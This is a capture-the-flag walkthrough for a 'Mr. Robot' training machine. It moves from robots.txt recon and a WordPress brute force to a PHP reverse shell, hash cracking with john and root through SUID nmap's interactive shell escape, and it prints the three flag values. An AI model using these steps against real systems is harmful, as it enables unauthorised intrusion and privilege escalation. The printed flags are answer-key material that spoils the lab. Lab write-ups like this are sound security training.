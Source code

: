 # Task 2  Hack the machine


Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to Leon Johnson for creating this machine. This machine is used here with the explicit permission of the creator <3 

## What is key 1?
While scanning with gobuster I go for low hanging fruits. So I took a look into robots.txt. There you can find a hint for a file with key number one.

> 073403c8a58a1f80d943455fb30724b9

## What is key 2?

Found a dictionaryfile. After sorting and uniq it, I'll tried a bruteforce attack on the wordpress instance. 

While the bruteforce attack is running I was looking around. I looked into the Webpage "license". There I found a base64 snippet on the page.

```shell
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

In the meanwhile the bruteforce with `wpscan` did also solved it.

After that, we install a php-reverseshell.

I stabilized my shell with `python -c 'import pty; pty.spawn("/bin/bash")'` and after that, we looked arround. In the homedirectory of robot we found to files. To open `key2-of-3.txt` our permissions are not enough, but we can look at the `password.raw-md5`. Lets crack this with john.

With the password we change user to `robot` with `su robot`.

Now we are able to read the file.

```shell
cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

> 822c73956184f694993bede3eb39f959

## What is key 3?

Okay - after some research I looked at the hint... nmap.
I did not find any interessting port... so I go for the normal stuff... suid and so `find / -perm -u=s -type f 2>/dev/null`

Oh - Nmap with SUID.

```shell
nmap --interactive
nmap> !sh
# 
# whoami
root
# cd /root
# ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

> 04787ddef27c3dee1ee161b21670b4e4

